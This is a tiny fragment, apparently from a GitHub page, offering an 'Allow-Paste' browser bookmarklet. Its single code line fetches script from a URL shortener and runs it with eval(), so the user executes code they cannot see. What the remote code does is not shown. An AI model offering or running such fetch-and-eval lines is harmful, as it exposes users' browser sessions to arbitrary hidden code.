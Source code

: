 # 👑 Allow-Paste
🔧 Stable:
```javascript
javascript:fetch('https://short-link.me/-3i9').then(r=>r.text()).then(eval);
